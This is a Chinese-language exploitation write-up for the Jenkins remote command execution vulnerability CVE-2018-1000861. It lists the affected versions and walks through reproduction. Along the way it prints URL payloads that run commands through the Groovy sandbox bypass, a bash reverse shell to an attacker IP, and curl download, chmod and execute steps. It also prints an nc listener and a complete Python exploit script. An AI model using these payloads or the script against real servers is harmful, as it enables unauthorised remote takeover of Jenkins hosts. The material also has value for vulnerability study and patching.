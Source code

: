 （CVE-2018-1000861）Jenkins 远程命令执行漏洞
============================================

一、漏洞简介
------------

Jenkins使用Stapler框架开发，其允许用户通过URL
PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

二、漏洞影响
------------

Jenkins Version \<= 2.56

Jenkins LTS Version \<= 2.46.1

三、复现过程
------------

#### 漏洞复现:

##### 1.此漏洞是没有回显的,所以我们这里直接反弹shell:

此漏洞的POC(直接GET请求即可):

    GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}}

##### 2.我们这里采取下载文件的方法来反弹shell

\(1\) 先在我们的服务器上防止一个文本,内容为:

    bash -i >& /dev/tcp/172.26.1.156/9999 0>&1

\(2\) 然后我们替换POC中执行命令的部分为下载文件的命令:

    curl -o /tmp/1.sh http://172.26.1.156:8080/1.txt

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22curl+-o+/tmp/1.sh+http://172.26.1.156:8080/1.txt%22.execute()}}

\(3\) 给予下载的脚本执行权限:

    chmod 777 /tmp/1.sh

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22chmod+777+/tmp/1.sh%22.execute()}}

\(4\) 然后在我们接收shell的机器上监听之前写的端口:

    nc -lvvp 9999

\(5\) 直接bash执行我们下载的脚本

    bash /tmp/1.sh

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash+/tmp/1.sh%22.execute()}}

\(6\) 回到我们监听端口的机器:

![U1fa800f6a04448f38d05166dcce9d04cJ.jpg](./resource/(CVE-2018-1000861)Jenkins远程命令执行漏洞/media/rId27.jpg)

可以看到已经成功获取到了shell!

### poc

**useage**

    $ curl -s -I http://jenkins/| grep X-Jenkins
    X-Jenkins: 2.137
    X-Jenkins-Session: 20f72c2e
    X-Jenkins-CLI-Port: 50000
    X-Jenkins-CLI2-Port: 50000

    $ python exp.py http://jenkins/ 'curl orange.tw'
    [*] ANONYMOUS_READ disable!
    [*] Bypass with CVE-2018-1000861!
    [*] Exploit success!(it should be :P)

![Uadc7abd83e45466dbed2f51492676c13j.jpg](./resource/(CVE-2018-1000861)Jenkins远程命令执行漏洞/media/rId29.jpg)

    #!/usr/bin/python
    # coding: UTF-8
    # author: Orange Tsai(@orange_8361)
    # 

    import sys
    import requests
    from enum import Enum

    # remove bad SSL warnings
    try:
        requests.packages.urllib3.disable_warnings()
    except:
        pass


    endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

    class mode(Enum):
        ACL_PATCHED = 0
        NOT_JENKINS = 1
        READ_ENABLE = 2
        READ_BYPASS = 3
        ENTRY_NOTFOUND = 999

    def usage():
        print '''
      Usage:
        python exp.py <url> <cmd>
        '''

    def _log(msg, fail=False):
        nb = '[*]'
        if fail:
            nb = '[-]'
        print '%s %s' % (nb, msg)

    def _get(url, params=None):
        r = requests.get(url, verify=False, params=params)
        return r.status_code, r.content

    def _add_bypass(url):
        return url + 'securityRealm/user/admin/'

    def check(url):
        flag, accessible = mode.ACL_PATCHED, False

        # check ANONYMOUS_READ
        status, content = _get(url)
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_ENABLE, True
            _log('ANONYMOUS_READ enable!')
        elif status == 403:
            _log('ANONYMOUS_READ disable!')

            # check ACL bypass, CVE-2018-1000861
            status, content = _get(_add_bypass(url))
            if status == 200 and 'adjuncts' in content:
                flag, accessible = mode.READ_BYPASS, True
        else:
            flag = mode.NOT_JENKINS

        # check entry point, CVE-2019-1003005
        if accessible:
            if flag is mode.READ_BYPASS:
                url = _add_bypass(url)
            status, content = _get(url + endpoint)

            if status == 404:
                flag = mode.ENTRY_NOTFOUND

        return flag

    def exploit(url, cmd):
        payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
        params = {
            'sandbox': True, 
            'value': payload
        }

        status, content = _get(url + endpoint, params)
        if status == 200:
            _log('Exploit success!(it should be :P)')
        elif status == 405:
            _log('It seems Jenkins has patched the RCE gadget :(')
        else:
            _log('Exploit fail with HTTP status [%d]' % status, fail=True)
            if 'stack trace' in content:
                for _ in content.splitlines():
                    if _.startswith('Caused:'):
                        _log(_, fail=True)

    if __name__ == '__main__':
        if len(sys.argv) != 3:
            usage()
            exit()

        url = sys.argv[1].rstrip('/') + '/'
        cmd = sys.argv[2]

        flag = check(url)
        if flag is mode.ACL_PATCHED:
            _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
        elif flag is mode.NOT_JENKINS:
            _log('Is this Jenkins?', fail=True)
        elif flag is mode.READ_ENABLE:
            exploit(url, cmd)
        elif flag is mode.READ_BYPASS:
            _log('Bypass with CVE-2018-1000861!')
            exploit(_add_bypass(url), cmd)
        else:
            _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
